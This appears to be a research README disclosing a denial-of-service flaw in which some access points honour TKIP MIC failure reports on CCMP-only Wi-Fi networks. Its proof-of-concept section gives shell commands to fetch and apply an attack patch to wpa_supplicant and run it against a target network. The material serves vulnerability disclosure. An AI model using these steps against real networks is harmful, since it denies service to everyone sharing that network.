 # Impossible TKIP Countermeasures

## Description

We found a denial-of-service vulnerability in several Access Points (APs). Summarized, these APs accept TKIP MIC failure reports even when the network does not use TKIP. Someone with credentials to the network can abuse this to take make a network unusable, by sending two TKIP MIC failure reports every minute. Normally this should not be possible if the network is only configured to use CCMP.

Background:
- Vulnerable Access Points are Broadcom, Windows 10, and Aerohive.
*Against a Windows 10 hotspot, this results in a permanent denial-of-service attack (requiring a reboot the the AP).*
- The WPA-TKIP countermeasures disallow any clients from connecting to the AP using WPA-TKIP for one minute.
This is to mitigate weaknesses in WPA-TKIP.
- An adversary must posses credentials to connect with the network.
Nevertheless, sometimes a client has the necessary credentials to connect to the network, without being a trusted device.
Examples are public networks such as eduroam, a hotel network, a conference network, etc.

## Proof-of-concept

We created a [PoC patch](tkipdos_poc.patch) that modifies Linux's `wpa_supplicant` to carry out the attck.
It transmits two MIC failure reports after completing the 4-way handshake with the AP.
This triggers the TKIP countermeasure period, even though TKIP is not used by the network.
As a result, clients can no longer connect to the AP.

To execute the attack first patch `wpa_supplicant`:

		git clone git://w1.fi/srv/git/hostap.git -b hostap_2_6 wpasupp-tkipdos
		cd wpasupp-tkipdos
		wget https://raw.githubusercontent.com/vanhoefm/asiaccs2017-pocs/master/tkip-countermeasures/tkipdos_poc.patch
		git apply tkipdos_poc.patch
		cd wpa_supplicant
		cp defconfig .config
		make -j 8

Then edit `network.conf` so it contains the target SSID and password of the network, and run:

		sudo ./wpa_supplicant -D nl80211 -i $INTERFACE -c network.conf

Where `$INTERFACE` is a wireless interface.

